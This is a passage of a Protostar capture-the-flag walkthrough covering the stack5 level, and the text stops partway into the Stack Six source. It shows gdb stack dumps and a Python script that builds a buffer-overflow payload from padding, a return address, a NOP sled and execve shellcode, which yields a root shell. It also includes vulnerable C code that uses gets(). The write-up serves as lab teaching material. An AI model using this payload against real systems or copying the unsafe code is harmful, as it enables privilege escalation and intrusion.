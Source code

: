 ```
(gdb) x/100x $esp-100 
0xbffffc5c:     0x080483d9      0xbffffc70      0xb7ec6165      0xbffffc78
0xbffffc6c:     0xb7eada75      0x41414141      0x41414141      0x41414141
0xbffffc7c:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc8c:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc9c:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcac:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcbc:     0x42424242      0x43434343      0xbffffd00      0xbffffd6c
```

We can see that at address `0xbffffcc0` (`0xbffffcbc` + 4 ) is where our "CCCC" or `0x43434343` were placed on the stack. Now we can begin to write our exploit.

```python
import struct

padding = "A"*76
nops = "\x90"*14
eip = struct.pack("I",0xbffffcc0)
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload = padding+eip+nops+shellcode
print payload
```
The shellcode that I used execute the `/bin/dash` shell for us. You can find this code [here](http://shell-storm.org/shellcode/files/shellcode-811.php). We will now have to save the output of this to a file.

```shell
python exploit5.py > /tmp/txt
```
We can now test this out on our binary. The dash is used to pass the file hex in as stdin.
```
$ cat /tmp/txt - | /opt/protostar/bin/./stack5 
whoami 
root
```

## Stack Six

### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
```